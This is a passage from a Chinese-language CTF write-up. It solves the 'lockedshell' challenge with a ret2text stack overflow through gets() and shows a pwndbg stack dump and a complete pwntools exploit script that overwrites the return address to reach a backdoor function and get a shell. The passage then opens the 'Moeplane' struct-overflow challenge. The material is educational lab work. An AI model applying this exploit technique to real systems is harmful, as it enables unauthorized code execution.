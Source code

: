 - 发现栈溢出保护与 PIE 保护已经关闭，可以用 ret2text 方式攻击
- 在函数列表中找到 my_shell，记下对应地址 0x401176
- 切换到伪代码视图，使用 `gets()` 的有 `char s2[80]`
- 用带 pwndbg 插件的 gdb 调试 lockedshell：

```bash
────────────────────────────────────────────[ STACK ]────────────────────────────────────────────
00:0000│ rbp rsp 0x7fffffffd9a0 —▸ 0x7fffffffda50 —▸ 0x7fffffffdaf0 —▸ 0x7fffffffdb50 ◂— 0
01:0008│+008     0x7fffffffd9a8 —▸ 0x401254 (main+78) ◂— lea rcx, [rbp - 0x50]
02:0010│+010     0x7fffffffd9b0 ◂— 0x979e42599416fa29
03:0018│+018     0x7fffffffd9b8 ◂— 0x3d6a5312ea2d8e39
04:0020│+020     0x7fffffffd9c0 ◂— 0x9fb33274d366f674
05:0028│+028     0x7fffffffd9c8 ◂— 0xf22e06e687f51f5
06:0030│+030     0x7fffffffd9d0 ◂— 0xa1023253596e423e
07:0038│+038     0x7fffffffd9d8 ◂— 0x718332fc57dc7805
```

- 可见 `rbp` 大小为 8，编写攻击代码：

```python
from pwn import * # Import pwntools

io = process('./lockedshell') # 做题时请手动换成服务器地址
backdoor_address = 0x00401176 # 刚才获得的 `backdoor` 地址
backdoor_address += 1 # TODO 施法
payload = cyclic(80) # 填满 `s2`
payload += cyclic(0x8) # 填满 `rbp`
payload += p64(backdoor_address) # 篡改返回地址
io.sendlineafter(b'\n', payload) # 待输出至 `\n` 后输入 payload
io.interactive() # Get shell
```

- 获得 shell 后，使用正常操作获取当前目录下的 flag：

```bash
cat flag
```

## Moeplane

飞机出现严重故障，即将坠毁。作为机长的你能否挽救机上所有人的性命？

附件图片给出的结构体如下：

```c
/* Size: 24 bytes, alignment 8 bytes */
struct airplane {
  /* It's a */ long flight;
  int altitude;
  int velocity;
  int angel;
  unsigned char engine_thrust[ENGINES];
} moeplane;
```

!!! info "相关知识点"
    - 结构体数据存储与空间对齐
    - 数组越界
    - 小端序
